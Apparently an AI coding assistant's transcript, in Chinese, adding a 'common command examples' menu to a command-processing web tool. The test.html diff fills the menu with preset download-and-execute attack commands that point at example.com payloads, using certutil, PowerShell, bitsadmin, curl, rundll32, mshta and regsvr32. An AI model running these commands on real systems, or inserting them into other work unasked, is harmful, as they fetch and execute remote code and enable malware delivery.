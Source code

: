 
最后，我需要添加JavaScript代码来处理常见命令的选择和显示逻辑：

---

```diff
      });
      slist(document.getElementById("options-panel-options"));
+     
+     // 处理常见命令菜单
+     (_e = document.getElementById("common-commands-btn")) === null || _e === void 0 ? void 0 : _e.addEventListener("click", function (_) { return ShowContextMenu(document.getElementById('common-commands-menu'), document.getElementById('common-commands-btn')); });
+     addEnterListener(document.getElementById("common-commands-btn"));
+     
+     // 处理常见命令选择
+     (_f = document.getElementById('common-commands-menu')) === null || _f === void 0 ? void 0 : _f.childNodes.forEach(function (MenuItem) {
+         if (MenuItem.nodeType === 1) {  // 仅处理元素节点
+             MenuItem.addEventListener("click", function (e) {
+                 var cmdElement = document.getElementById("input-command");
+                 if (cmdElement && MenuItem.dataset.command) {
+                     cmdElement.value = MenuItem.dataset.command;
+                     // 触发输入更新
+                     UpdateTokens();
+                 }
+                 // 关闭菜单
+                 document.dispatchEvent(new MouseEvent("mousedown", { clientX: 1, clientY: 1, bubbles: true }));
+             });
+         }
+     });
  }
  ;
```

---

现在我们需要将这些修改也应用到test.html页面，因为看起来这个页面也是一个应用页面：

---

```diff
              </div>
              <div class="tools">
+                 <div class="command-examples">
+                     <a class="button" id="common-commands-btn" aria-haspopup="listbox" aria-expanded="false" role="combobox" tabindex="0"><strong>常见命令示例</strong></a>
+                     <menu class="context-menu" id="common-commands-menu" aria-labelledby="common-commands-btn" tabindex="-1" role="listbox">
+                         <li role="option" data-command="certutil -urlcache -split -f http://example.com/payload.exe C:\Windows\Temp\payload.exe">远程下载文件 (certutil)</li>
+                         <li role="option" data-command="powershell -c &quot;(New-Object System.Net.WebClient).DownloadFile('http://example.com/payload.exe', 'C:\\Windows\\Temp\\payload.exe')&quot;">远程下载文件 (PowerShell)</li>
+                         <li role="option" data-command="bitsadmin /transfer myJob /download /priority high http://example.com/payload.exe C:\Windows\Temp\payload.exe">远程下载文件 (bitsadmin)</li>
+                         <li role="option" data-command="curl -o C:\Windows\Temp\payload.exe http://example.com/payload.exe">远程下载文件 (curl)</li>
+                         <li role="option" data-command="rundll32.exe javascript:&quot;\..\mshtml,RunHTMLApplication &quot;;document.write();new%20ActiveXObject(&quot;WScript.Shell&quot;).Run(&quot;powershell -nop -exec bypass -c IEX(New-Object Net.WebClient).DownloadString('http://example.com/payload.ps1')&quot;);">执行远程PowerShell (rundll32)</li>
+                         <li role="option" data-command="mshta vbscript:Close(Execute(&quot;GetObject(\&quot;script:http://example.com/payload.sct\&quot;)&quot;))">执行远程脚本 (mshta)</li>
+                         <li role="option" data-command="regsvr32 /s /u /i:http://example.com/payload.sct scrobj.dll">执行远程脚本 (regsvr32)</li>
```